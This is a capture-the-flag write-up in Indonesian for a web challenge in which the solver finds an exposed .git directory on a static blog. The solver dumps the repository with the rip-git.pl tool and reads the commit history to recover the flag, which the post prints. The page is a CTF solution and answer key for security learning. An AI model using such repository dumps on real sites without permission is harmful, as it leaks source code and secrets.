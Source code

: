 Deskripsi soal:
<pre>
I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML. 
https://0ldsk00lblog.ctf.internetwache.org/.
</pre>

<h3>Solved by snoww0lf</h3>

Ini adalah soal web yang cukup mudah, jika kita perhatikan sekilas ini hanyalah sebuah web statis yang menurut saya tidak memiliki keistimewaan. Namun beberapa konten di situs tersebut memberikan beberapa clue yakni "All people are talking about a tool called 'Git'. I think I might give this a try.", nampaknya saat web ini dideploy mereka sengaja tidak menghapus direktori ".git". Untuk itu saya coba untuk mengakses https://0ldsk00lblog.ctf.internetwache.org/.git/ dan didapatkan 403 Forbidden, ini menandakan direktori tersebut ternyata tersedia.

Tahap berikutnya ialah melakukan cloning git tersebut, disini saya menggunakan "dvcs-ripper" yang dapat didownload disitus berikut ini https://github.com/kost/dvcs-ripper lalu menjalankan dan mengeksekusinya melalui console.

```bash
./rip-git.pl -s -v -u https://0ldsk00lblog.ctf.internetwache.org/.git/
```

Setelah berhasil di-clone maka , saatnya untuk mengecek log terakhir dari hasil cloning tadi di folder ".git", dengan menggunakan perintah "git log -p" ditampilkan beberapa output yang cukup menarik.

```html
commit 26858023dc18a164af9b9f847cbfb23919489ab2
Author: Sebastian Gehaxelt <github@gehaxelt.in>
Date:   Fri Jan 22 02:57:44 2016 +0100

    Added another post

diff --git a/index.html b/index.html
index 91f09a7..5508adb 100644
--- a/index.html
+++ b/index.html
@@ -3,12 +3,21 @@
        <title>0ldsk00l</title>
 </head>
 <body>
+       <h2>2000</h2>
+       <p>
+               Oh, did I say that I like kittens? I like flags, too: IW{G1T_1S_4W3SOME}
+       </p>
+
+       <h2>1990-2015</h2>
+       <p>
+               Hmm, looks like totally forgot about this page. I should start blogging more often.
+       </p>
 
        <h2>1990</h2>
        <p>
                I proudly present to you the very first browser for the World Wide Web. Feel free to use it to view my awesome blog.
        </p>
-       
+
        <h2>1989</h2>
        <p>
                So, yeah, I decided to invent the World Wide Web and now I'm sitting here and writing this. 
```

Flag: <b>IW{G1T_1S_4W3SOME}</b>
